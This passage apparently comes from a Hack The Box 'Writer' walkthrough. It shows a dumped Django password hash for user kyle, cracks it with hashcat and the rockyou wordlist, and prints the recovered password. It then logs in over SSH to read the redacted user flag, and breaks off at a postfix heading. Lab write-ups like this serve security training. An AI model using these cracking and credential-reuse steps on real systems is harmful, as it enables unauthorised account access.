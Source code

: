 ```
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
|  1 | pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A= | NULL       |            1 | kyle     |            |           | kyle@writer.htb |        1 |         1 | 2021-05-19 12:41:37.168368 |
+----+------------------------------------------------------------------------------------------+------------+--------------+----------+------------+-----------+-----------------+----------+-----------+----------------------------+
```

### Cracking password hashes
We will first try to identify the hash type and the hash is identified to possibly be Django hash using HashCat
```
┌──(kali㉿kali)-[~]
└─$ hashcat -h | grep "PBKDF2-SHA256"
   9200 | Cisco-IOS $8$ (PBKDF2-SHA256)                    | Operating System
  10000 | Django (PBKDF2-SHA256)                           | Framework
```
Afterwards, we will now we will use HashCat to decode the hash and obtain the password. The password is obtained to be ```marcoantonio```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 10000 hash.txt rockyou.txt  
┌──(kali㉿kali)-[~/Desktop]
└─$ hashcat -m 10000 hash.txt rockyou.txt --show                                             3 ⚙
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
```
### Obtaining user flag
Finally, we will now ssh into the user ```kyle``` and obtain the user flag.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh kyle@10.10.11.101                                                                    3 ⚙
The authenticity of host '10.10.11.101 (10.10.11.101)' can't be established.
ECDSA key fingerprint is SHA256:GX5VjVDTWG6hUw9+T11QNDaoU0z5z9ENmryyyroNIBI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.101' (ECDSA) to the list of known hosts.
kyle@10.10.11.101's password: 
Last login: Fri Sep 17 16:56:56 2021 from 10.10.14.15
kyle@writer:~$ ls
user.txt
kyle@writer:~$ cat user.txt
<Redacted user flag>
kyle@writer:~$ 
```

## Exploiting postfix
